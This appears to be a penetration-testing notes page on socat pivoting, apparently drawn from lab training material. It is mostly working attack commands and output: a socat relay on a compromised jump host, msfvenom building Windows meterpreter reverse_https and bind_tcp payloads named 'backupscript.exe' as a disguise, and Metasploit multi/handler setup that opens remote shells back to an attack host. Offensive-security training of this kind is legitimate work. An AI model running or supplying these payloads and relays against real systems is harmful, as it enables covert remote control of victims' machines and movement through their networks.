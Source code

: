 ```yaml
---
description: >-
  Socat is a bidirectional relay tool that can create pipe sockets between 2
  independent byte streams and transfer data between them.
---
```


# Socat

**Starting Socat Listener (On Jump host)**

```shell-session
victim@jump-host$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen on localhost port 8080 and forward all traffic to port 80 on our attack host(10.10.14.18). The next step is to configure a payload that will connect back to our redirector on the victim host. We also start a listener on our attack host on port 80.

**Creating the Windows Payload (Delivered to Windows machine)**

```shell-session
attacker@attack-host$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

**Configuring & Starting the multi/handler (on Attack host)**

```shell-session
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```



## Socat Redirection with a Bind Shell

Like we did above for a reverse redirector where we start a socat listener on our jump host, in the case of bind shells, the Windows server will start a listener and bind to a particular port. We can create a bind shell payload for Windows and execute it on the Windows host. At the same time we create a socat listener on our jump host that listens for incoming connections and forward them to the bind shell on Windows.



**Creating the Windows Payload (Delivered to Windows host)**

```shell-session
attacker@attack-host$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

**Starting Socat Bind Shell Listener (on Jump host)**

```shell-session
victim@jump-host$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

\
**Configuring & Starting the Bind multi/handler (on Attack host)**

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```
